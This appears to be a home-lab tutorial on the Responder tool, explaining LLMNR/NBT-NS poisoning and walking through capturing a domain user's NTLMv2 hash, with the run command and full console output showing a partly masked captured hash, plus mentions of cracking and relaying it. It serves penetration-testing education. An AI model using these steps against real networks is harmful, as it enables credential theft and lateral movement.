


### 🔧 **What is Responder?**
Responder is an **LLMNR, NBT-NS, and MDNS poisoner** — meaning it listens for broadcast name resolution requests and responds to them with fake data, tricking machines into sending sensitive information (like hashes).

---

###  **Main Uses of Responder**
1. **Capturing NTLMv1/v2 Hashes**
   - If a victim machine tries to access a resource (like `\\nonexistent\share`) and can't resolve the name via DNS, it falls back to **LLMNR** or **NBT-NS**.
   - Responder replies with “Hey, I’m that machine!” and the victim sends over **NTLM hashes** to authenticate.
   - These hashes can be **cracked offline** or used in **relay attacks**.

2. **SMB Relay Attacks**
   - In combination with tools like **NTLMRelayX**, Responder can forward NTLM hashes to other systems (like SMB or LDAP) to gain access or escalate privileges.
   - Useful in scenarios where cracking hashes is impractical.

---

###  Common Protocols Targeted by Responder
- **LLMNR (Link-Local Multicast Name Resolution)**
- **NBT-NS (NetBIOS Name Service)**
- **MDNS (Multicast DNS)**
- **SMB, HTTP, FTP, IMAP, LDAP, SQL, etc.** — Responder can impersonate these services too.


###  **Use Case: Capturing NTLMv2 Hashes with Responder**

#### **Scenario**
You have:
- A **Windows domain environment** with a **Domain Controller (DC)**.
- One or more **Windows client machines** joined to the domain.
- A **Kali Linux box** (or any Linux system) on the same network running **Responder**.

#### **Objective**
Capture **NTLMv2 hashes** when a domain-joined machine tries to resolve an unknown hostname.

---

###  **Step-by-Step Walkthrough**

#### 1. **Run Responder on Kali**
```bash
sudo responder -I eth0 -dwv 
```


- Replace `eth0` with your actual interface (use `ip a` to check).
- Responder starts poisoning LLMNR and NBT-NS requests.

#### 2. **Simulate a User Trying to Access an Attacker system**
From a Windows machine, run:
```cmd
\\<Target ip>>
```


 Windows will first try DNS, and if that fails, it falls back to **LLMNR/NBT-NS**. That’s where Responder comes in.

#### 3. **Capture Hashes**
On Kali, we’ll see output like:

```bash
                                                                                                                                                            
┌──(kali㉿kali)-[~/Home-lab]
└─$ sudo responder -I eth0                                   

[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.129.137]
    Responder IPv6             [fe80::47e3:71c9:2b96:c9c7]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-Q0PDMTV8IGR]
    Responder Domain Name      [ZNAF.LOCAL]
    Responder DCE-RPC Port     [48776]

[+] Listening for 

[SMB] NTLMv2-SSP Client   : 192.168.129.141
[SMB] NTLMv2-SSP Username : FURIOUS\jack
[SMB] NTLMv2-SSP Hash     : jack::FURIOUS:057cf8ca8755df48:4171E167B691B8DCDDDE7B3522D7046C:010100000000000080B15D56F2B3DB0128C5A8DA0625D9B800000000020008005A004E004100460001001E00570049004E002D0051003000500044004D0054005600380049004700520004003400570049004E002D0051003000500044004D005400560038004900470052002E005A004E00410046002E004C004F0043004********************************************************************************************************************************************************************************************************
[+] Exiting...

```

we’ve captured a **hash** that can now be cracked with `hashcat` or relayed.

---


